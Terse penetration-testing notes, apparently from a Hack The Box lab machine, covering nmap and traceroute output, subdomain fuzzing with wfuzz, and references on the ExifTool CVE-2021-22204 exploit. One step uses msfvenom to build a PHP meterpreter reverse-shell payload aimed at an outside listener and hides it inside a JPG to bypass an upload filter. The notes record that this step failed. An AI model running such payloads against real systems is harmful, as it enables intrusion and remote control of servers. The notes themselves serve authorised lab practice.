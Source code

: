 IP:: 10.10.11.114   meta.htb artcorp.htb

PORT STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 12:81:17:5a:5a:c9:c6:00:db:f0:ed:93:64:fd:1e:08 (RSA)
|   256 b5:e5:59:53:00:18:96:a6:f8:42:d8:c7:fb:13:20:49 (ECDSA)
|_  256 05:e9:df:71:b5:9f:25:03:6b:d0:46:8d:05:45:44:20 (ED25519)
80/tcp open  http    Apache httpd
|_http-title: Did not follow redirect to http://artcorp.htb
|_http-server-header: Apache
Aggressive OS guesses: Linux 5.4 (95%), Linux 5.0 (94%), Linux 5.0 - 5.4 (94%), HP P2000 G3 NAS device (93%), Linux 4.15 - 5.6 (92%), Linux 5.0 - 5.3 (92%), Linux 2.6.32 - 3.13 (91%), Linux 2.6.32 (91%), Linux 2.6.32 - 3.1 (91%), Linux 3.7 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 199/tcp)
HOP RTT       ADDRESS
1   207.88 ms 10.10.16.1
2   365.75 ms meta.htb (10.129.142.77)

wfuzz - /assets, /css 
    + wfuzz --hc 400,302 -H "HOST: FUZZ.artcorp.htb" -  http://artcorp.htb | grep 200
        /dev01 :: http://dev01.artcorp.htb/metaview
gobuster - 
ffuf -
nikto - nothing


php not allowed @upload::
    + jpg/png
`$ msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=31337 -f raw > payload.php`
`$ pixload-jpg -payload "$(cat payload.php)" test.jpg`
:: No luck

LAB:: TODO::
https://github.com/convisolabs/CVE-2021-22204-exiftool/tree/master/lab



References::
https://github.com/chinarulezzz/pixload
https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/
https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
https://github.com/convisolabs/CVE-2021-22204-exiftool